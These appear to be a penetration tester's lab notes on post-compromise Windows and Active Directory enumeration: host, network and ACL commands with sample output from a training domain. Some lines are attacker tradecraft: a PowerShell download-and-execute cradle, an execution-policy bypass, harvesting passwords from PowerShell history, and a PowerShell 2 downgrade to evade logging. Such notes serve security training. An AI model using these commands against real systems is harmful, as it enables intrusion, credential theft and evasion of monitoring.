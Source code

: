 #### Basic Enumeration Commands

| **Command**                                             | **Result**                                                                                 |
| ------------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| `hostname`                                              | Prints the PC's Name                                                                       |
| `[System.Environment]::OSVersion.Version`               | Prints out the OS version and revision level                                               |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Prints the patches and hotfixes applied to the host                                        |
| `ipconfig /all`                                         | Prints out network adapter state and configurations                                        |
| `set`                                                   | Displays a list of environment variables for the current session (ran from CMD-prompt)     |
| `echo %USERDOMAIN%`                                     | Displays the domain name to which the host belongs (ran from CMD-prompt)                   |
| `echo %logonserver%`                                    | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |
| `systeminfo`                                            | Covers all above commands                                                                  |
# Using PowerShell
| **Cmd-Let**                                                                                                                | **Description**                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`                                 | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |
## Downgrade Powershell
Powershell event logging was introduced with version 3.0 onwards. If  #evasive required, we can try to downgrade Powershell.
```powershell
PS > Get-host
PS > powershell.exe -version 2
```
All executed commands are logged in `Applications and Services Logs` > `Microsoft` > `Windows` > `PowerShell` > `Operational`. 
# Network Information
| **Networking Commands**              | **Description**                                                                                                  |
| ------------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
| `arp -a`                             | Lists all known hosts stored in the arp table.                                                                   |
| `ipconfig /all`                      | Prints out adapter settings for the host. We can figure out the network segment from here.                       |
| `route print`                        | Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host. |
| `netsh advfirewall show allprofiles` | Displays the status of the host's firewall. We can determine if it is active and filtering traffic.              |
>`arp -a` and `route print` could discover new pivots to different network segments in any environment.
# [[WMIC]]
# [[Net]]
# [[Dsquery]]
# ACL Enumeration
[[PowerView#ACL Enumeration|> Using PowerView]]
## 1. [[Get-ADUser]]
Create a list of Domain users
```powershell
PS > Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
## 2. [[Get-ACL]]
Loop each user to get ACL information for each domain. `Access property` will give us information about access rights and finally we set the `IdentityReference` property to the user we are in control of (or looking to see what rights they have), in this case, `wley`.
```powershell
PS > foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

Path                  : Microsoft.ActiveDirectory.Management.dll\ActiveDirectory:://RootDSE/CN=Dana 
                        Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
InheritanceType       : All
ObjectType            : 00299570-246d-11d0-a768-00aa006e0529
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : INLANEFREIGHT\wley
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None
```
- Lookup the `ObjectAceType` online or reverse-search using PS
```powershell
PS > $guid= "00299570-246d-11d0-a768-00aa006e0529"
PS > Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl

Name              : User-Force-Change-Password
DisplayName       : Reset Password
DistinguishedName : CN=User-Force-Change-Password,CN=Extended-Rights,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
rightsGuid        : 00299570-246d-11d0-a768-00aa006e0529
```